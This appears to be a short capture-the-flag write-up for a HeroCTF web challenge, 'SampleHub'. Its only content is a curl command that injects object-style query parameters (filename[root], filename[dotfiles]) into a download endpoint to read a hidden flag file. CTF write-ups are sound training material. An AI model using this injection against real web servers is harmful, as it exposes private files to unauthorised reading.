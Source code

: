 # SampleHub

XXXX

```sh
curl "http://web.heroctf.fr:5300/download/.flag.txt?filename%5Broot%5D=/&filename%5Bdotfiles%5D=allow"
```
